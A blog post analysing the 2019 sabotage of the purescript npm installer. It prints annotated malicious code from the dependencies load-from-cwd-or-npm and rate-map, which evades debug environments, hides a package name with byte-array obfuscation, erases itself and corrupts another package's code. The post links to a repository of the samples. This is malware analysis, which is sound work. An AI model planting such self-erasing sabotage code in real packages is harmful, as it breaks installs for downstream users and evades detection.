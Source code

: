 ```yaml
---
layout: post
title: My Favourite Dep Malware PureScript NPM Installer
subtitle: A tale of a really cool piece of malware you probably haven't heard of
toc: true
#cover-img: /assets/img/solarwindsceocv.png
thumbnail-img: /assets/img/post5/npm-installer.png
share-img: /assets/img/post5/npm-installer.png
tags: [supplychain, sdlc]
---
```


#### Background


In July 2019, code was added to an upstream of the [`purescript` npm installer](https://www.npmjs.com/package/purescript) which sabotaged the completion of the installation process in a particularly interesting way. The subterfuge was particularly difficult to uncover/debug, taking 5 days for some of the most talented and skilled npmjs devs almost 5 days to unravel. It wouldn't be unfair to say that this event "stumped" (their words, not mine) some of the most talented and well versed engineers in this space.
It's my favourite dep malware, not because it resulted in some epic hack, but because it was so well executed by somebody with an innate understanding of the downstream landscape.

The malware takes advantage of how downstream projects load in the affected code, it uses conditional exploitation logic to hamper debug efforts, and uses just the right level of obfuscation to not immediately look suspect (no super sus looking B64'd blobs here). The malicious software also cleans up after itself.

In this post I hope to step through just how all this took place, so maybe we can all be impressed and together. This particular event got very little coverage, so hopefully you find reading about it notable even though it was a little while ago.

My colleagues really like it when I annotate malware for them, particularly side-by-side, so here's an attempt at posting in that format.

#### Timeline



#### What you're looking at / code intent

The samples below both sabotage the `purescript`  npm installer process to prevent it running successfully under certain conditions.





####   The Details: exploit version 1 `load-from-cwd-or-npm@3.0.2`

You can grab a copy of the dependency off of my repo here:  [`load-from-cwd-or-npm@3.0.2`](https://github.com/5stars217/My_Fav_Malware/tree/main/load-from-cwd-or-npm-3.0.2)

Load up a editor and open `load-from-cwd-or-npm@3.0.2` index.js file.

Check out lines 50 - 83: - I am going to #annotate the below snippet for you, watch out for the comments (#) in the code snippet.
The below code is designed to determine the environment it is running in, and decide what action to take.

`const tasks = [PassThrough];`

    //Create tasks array containing the Passthrough Stream Constructor.
    //Call tasks.unshift twice, so that it winds up at index 2 later.

  ``if (argLen === 2) {
     if (typeof args[1] !== 'function') {
        throw new TypeError(`Expected a function to compare two package versions, but got ${
          inspectWithKind(args[1])
    }.`);
  }``

  `} else {
    #call  tasks.unshift 1
  tasks.unshift(resolveSemverFromNpm);

  }`

      //call tasks.unshift 2. Now the PassThrough constructor is at index 2 in the tasks array.

`tasks.unshift(resolveFromNpm(modulePkgId));``

`try {
  const results = await Promise.all(tasks);
  let parent = module;`

    //Here comes a do-while loop that works out how the code is being run,
      //by inspecting the parent property of each module in the chain.
        //Check out the path.endsWith("cli")

    `do {   
    parent = parent.parent;`

  `try {
    const {path} = parent;`

    //the attacker is deciding whether or not to run the exploit code, by checking on the version of the purescript npm installer,
    //and if there is a .git working directory.  If the code detects a .git working directory, it'll skip the exploit.
    //This is because .git directories aren't present in production environments, so it makes debugging this issue way harder.
    // The intent is to  determine if a particular version of an installer is being run,
    //and if the code is being run in a environment where it could be easily debugged!

       `if (path.endsWith('cli') || [path, dirname(path)].some(dir => existsSync(resolve(dir, '.git')))) {
        parent = 'npm';
        break;
      }
    } catch (_) {}
  } while (parent);`

    //The purpose of this parent variable is just the layup for the exploit code if
      the above conditions are met to allow for it.


`if (typeof parent !== 'string') {
    return results[2];
}`


    //here's that [2] what's happening here is an if statement returning the PassThrough constructor
    //in the case where the malicious code is being run, this breaks a related function to pull down some
    //packages to complete the building of the software:


`const request = loadFromCwdOrNpm("request");
request("https://github.com/.../archive.tar.gz").pipe(...);`




#### The Details: exploit version 2 `rate-map@1.0.3`

You can grab a copy of the dependency off of my repo here:  [`rate-map@1.0.3`](https://github.com/5stars217/My_Fav_Malware/tree/main/rate-map-1.0.3/package)

Things get a little spicier from this point on. This version of the exploit contains the same `do-while` loop decision gate on exploitation, but it includes some significant upgrades.

`let parent = module;
const {
  existsSync: existsSync,
  readFileSync: readFileSync,
  writeFileSync: writeFileSync
} = require("fs");
  //You'll see the same check here if the code is running in a debug or non production environment.
  //But it'll also check for the presence of the `dl-tar` package on local filesystem via obfuscation:
do {
  parent = parent.parent;
  try {
    const { path: path } = parent;
    if (
      path.endsWith("cli") ||
      [path, dirname(path)].some(dir => existsSync(resolve(dir, ".git")))
    ) {
      parent = "npm";
      break;
    }
  } catch (_) {}
} while (parent);
if (typeof parent !== "string") {
  const px = require.resolve(
    # `Buffer.from` obfuscates the check for the `dl-tar` package on local filesystem.
    Buffer.from([100, 108, 45, 116, 97, 114]).toString()
  );
  //store the `index.js` from `dl-tar` in the `px` variable in the next block, which will rewrite the current file to remove the malicious code!
  try {
    writeFileSync(
      __filename,
      readFileSync(__filename, "utf8").replace(
        /let parent[^\0]*module\.exports/u,
        "module.exports"
      )
    );
  } catch (_) {}
//this next block replaces any lines in `dl-tars`'s `index.js` file to match the regex `/\n\s*cb\(null, chunk\` with empty strings, the result is that `dl-tar` users can't install the project.
  try {
    writeFileSync(
      px,
      readFileSync(px, "utf8").replace(/\n\s*cb\(null, chunk\);/u, "")
    );
  } catch (_) {}
}`




#### Final Notes

I intentionally skipped over some background information surrounding the disagreements between authors of `purescript` and `load-from-cwd-or-npm` etc. I just think the techniques used particularly  in `rate-map@1.0.3` are great uses of light (but effective) obfuscation and conditional exploitation.
